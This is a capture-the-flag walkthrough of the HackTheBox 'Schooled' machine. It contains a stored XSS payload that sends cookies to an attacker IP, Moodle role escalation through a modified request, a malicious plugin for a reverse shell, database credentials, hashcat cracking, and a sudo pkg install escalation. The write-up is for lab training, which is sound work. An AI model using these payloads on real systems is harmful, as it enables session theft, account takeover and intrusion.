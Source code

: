 ![SCHOOLED](banner.png)

## Initial Foothold

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
33060/tcp open  mysqlx?
```

Nothing out of the usual regarding ports. HTTP, SSH and MySQL.

The inital foothold on this was a little bit tricky since the usual enumeration doesn't give a lot of information. Nothing to be precise. Enumeration dns using gobuster didn't give us any subdomains either so it took us quite a while to use ffuf.. You might get there faster if you knew that moodle is quite famous for educational stuff, but I've never heard of it before.

```
$ffuf -w subdomains-top1million-5000.txt -u http://schooled.htb/ -H 'Host: FUZZ.schooled.htb' -fs 20750
```
[DNS_SecList](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)

This returns the subdomain moodle to us so we add moodle.schooled.htb to our /etc/hosts file.
At first glance we only see that it is possible to create a new student account as long as we use @student.schooled.htb.

After reasearching another hundred years we stumbled over this PoC https://cube01.io/blog/Moodle-DOM-Stored-XSS-to-RCE.html.
Sweet! However our MathJax version is not vulnerable aynmore.. Bummer!

But wait, didn't the prof. of the Math course we enroled into said we should add our MoodleNet information to our profile?
That might be a hint the author left us to point us into the right direction.

We also noticed that there is a session cookie to be stolen. XSS isn't really popular on HackTheBox but since we didn't find anything else we might aswell give it a shot.

So we inject our payload `<img src=x onerror=this.src='http://[YOUR_IP]:1234/?'+document.cookie;>`into the MoodleNet field on our moodle profile and test it by visiting our profile ourselves while listening on port 1234.

We soon noticed that it didn't took long for our teacher to check on our profile aswell, WHAT A CREEP! (If nothing happens for a while, try to chat him. That always worked fine to trigger him. And don't visit your own profile page or you'll get your own cookie 😉)
But good for us, we managed to steal his Cookie 🍪.

![cookie.png](cookie.png)

For the following all credits go to [HoangKien1020](https://www.youtube.com/watch?v=BkEInFI4oIU) since his instructions made it dead simple to follow from here on. 

First we change our cookie to the one we stole to become the teacher Manuel Phillips.
Afterwards we go on our Maths course -> Participants and enrole a new studen user, but make sure to catch this request with Burpsuite. At this point we didn't know this already but later we will learn that we should add Lianne Carter to the course, since she is the site manager which we learned on the main page.

To make it easier we just going to pretend that we did this right aways.

Send the captured burpsuite request to the Repeater and change the userlist id to our user id: 24 and the role id to 1 which is the manager role.

![request](request.PNG)

We now elevated ourself to the manager role moodle and can use this to login into Liannes Account via her profile page. (If there's no button to login as Lianne, she's not enrolled to the math course. Just add her normally on the webpage without intercepting.)

Once logged in as Lianne we have access to the Site Administration. We now navigate to Users -> Define Roles -> Manager -> Edit and turn on the interceptor to capture the following request before hiting Save and Exit. In Burpsuite we can modifiy the payload now to [this](https://github.com/HoangKien1020/CVE-2020-14321) to escalate further to full permissions. With our new permissions we can deploy and install new Plugins.

We can now simply install [this compromised zip](https://github.com/HoangKien1020/Moodle_RCE) as a new plugin. To get a nice shell you can change the content of the block_rce.php inside the zip to something like [this simple reverse shell](https://github.com/pentestmonkey/php-reverse-shell). Make sure to fill in your LHOST and LPORT. Finally set up your listener and navigate to http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php.

Et Voilá we have RCE!

## User

This point was the first step we actually got lucky and pretty much went straight for the right file: `cat config.php` which reveals the mysql credentials: `moodle:PlaybookMaster2020`.

![mysql_creds.png](mysql_creds.png)

So let's have a look at our moodle databse shall we?

```
$ mysql -umoodle -pPlaybookMaster2020
$ use moodle;
$ SHOW TABLES;
$ SELECT * FROM mdl_user;
```

![mdl_user.png](mdl_user.png)

There is a nice bcrypt hash for the admin user, so let's fire up hashcat:

```
$ hashcat hash.txt rockyou.txt -m 3200
$ hashcat hash.txt rockyou.txt -m 3200 --show
```

![hashcat.png](hashcat.png)

After a couple of seconds we are presented the the password: `!QAZ2wsx` which we can use to ssh into jamie and get the user.txt.

## Root

We have spent enough time on this Box to get gifted with this easy PrivEsc.
```
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

So we can install just any pkg? Well that doesn't sound safe does it.

https://gtfobins.github.io/gtfobins/pkg/ shows us how to exploit this.

Create your mailicious package on your host mashine:

```
TF=$(mktemp -d)
echo 'cat /root/root.txt' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```
#*You might need to install fpm if you are using kali.*

Upload it to the server using scp:

```
scp x-1.0.txz jamie@schooled.htb:x-1.0.txz
```

and install it with:

```
sudo /usr/sbin/pkg install -y --no-repo-update ./x-1.0.txz
```

You are presented the root.txt

